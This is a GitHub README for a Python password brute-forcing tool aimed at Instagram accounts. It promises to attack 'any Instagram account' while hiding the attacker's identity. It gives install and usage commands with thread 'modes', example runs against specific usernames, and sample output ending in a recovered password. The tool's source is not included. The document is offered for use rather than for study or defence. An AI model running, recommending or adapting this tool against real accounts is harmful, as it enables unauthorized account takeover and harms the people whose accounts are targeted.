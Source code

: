 # Instagram Hack with Force Brute

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/C6AFrWQ)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Msheikh03)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py ousmane_oficial pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py ousmane_oficial pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py ousmane_oficial pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: ousmane_oficial
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: ousmane_oficial
[-] Password: ousmane1234
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: ousmane_oficial
[+] Password: ousmane1234
```
